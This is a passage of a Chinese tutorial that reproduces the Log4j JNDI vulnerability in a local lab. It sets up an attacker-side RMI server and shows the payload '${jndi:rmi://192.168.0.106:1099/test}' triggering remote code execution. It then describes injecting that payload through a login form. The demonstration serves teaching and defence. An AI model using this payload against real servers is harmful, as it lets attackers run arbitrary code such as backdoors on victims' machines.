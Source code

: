 RmiServer主要模拟的是在骇客本地运行的RMI进程，而且在log4j-all模块中`io.binghe.log4j.rmi`包下的RmiObj类和RmiServer都是在骇客本地的代码。

RmiServer类中的代码也是比较简单的，就是按照常规模式发了一个RMI服务。需要注意的是，在RmiServer类中使用Reference类加载了RmiObj类的代码，并且将RMI服务发布在1099端口上，路径是`/test`。

### 启动重现漏洞程序

（1）运行`io.binghe.log4j.rmi.RmiServer`类的main()方法骇客本地的RMI服务，启动后输出的日志信息如下所示。

```bash
RMI Listener 1099 port
```

（2）回到模拟远程站点的`io.binghe.log4j.Log4jDemo`代码，将其中的str字符串变量修改成如下所示。

```java
String str = "${jndi:rmi://192.168.0.106:1099/test}";
```

其中，`jndi:rmi://192.168.0.106:1099/test`就是利用Log4j的JNDI技术连接远程RMI服务，其中的`192.168.0.106`表示我本机的IP地址，1099是启动RMI服务监听的端口号，test是发布RMI服务的根目录。

（3）启动`io.binghe.log4j.Log4jDemo`类的main()方法，输出了如下的日志信息。

```bash
执行代码
11:38:22.380 [main] INFO  io.binghe.log4j.Log4jDemo - 输出的信息是:${jndi:rmi://192.168.0.106:1099/test}
```

可以看到，在模拟远程站点的Log4jDemo输出的日志中，不仅打印除了Log4j的日志，还打印了在模拟骇客本地RMI服务的`io.binghe.log4j.rmi.RmiObj`类中的代码。

这意味着什么呢？意味着在远程服务器上执行了骇客本地的程序，而骇客是可以在自己本地的`io.binghe.log4j.rmi.RmiObj`类的静态代码块中写任意代码的，是不是很恐怖，这确实是Log4j的一个重大漏洞。

### 漏洞具体场景分析

说到这里，可能有小伙伴不太理解上述代码的执行逻辑。这里，我给大家举一个具体场景的示例。

（1）一名骇客在自己的本地电脑或者自己的服务器上编写了RmiObj类和RmiServer类，并且在RmiObj类的静态代码块中写了很多破坏远程服务器的代码，比如木马程序、病毒程序、后门程序，死循环等等。在本地电脑或者自己的服务器上启动了RmiServer类来启动一个RMI服务，而RmiServer启动时会加载RmiObj类，如下所示。

![2022-05-30-004](https://binghe.gitcode.host/assets/images/hack/log4j/2022-05-30-004.png)

（2）在远程站点的Web登录页面中的用户名文本框中输入了字符串`${jndi:rmi://192.168.0.106:1099/test}`，当前具体的IP地址和端口号以及RMI服务的根路径根据骇客的具体情况调整。点击登录按钮后模拟登录操作，就会将用户名`${jndi:rmi://192.168.0.106:1099/test}`和乱写的密码发送到远程站点的后台。

![2022-05-30-005](https://binghe.gitcode.host/assets/images/hack/log4j/2022-05-30-005.png)

如果远程站点的后台在接收到用户名`${jndi:rmi://192.168.0.106:1099/test}`和乱写的密码后，在没有做参数校验的情况下，直接利用Log4j按照如下方式，打印传递过来的用户名和密码。

```bash
String username = request.getParameter("username");
String password = request.getParameter("password");
logger.info("用户名为：{}, 密码为:{}", username, password);
```

此时就会触发Log4j的重大漏洞，在远程站点的服务器上执行骇客本地RmiObj类中的static静态代码块中编写的破坏服务器的代码。相信此时远程站点的服务器就会凉凉了。

至此，我们分析完log4j-all模块了。
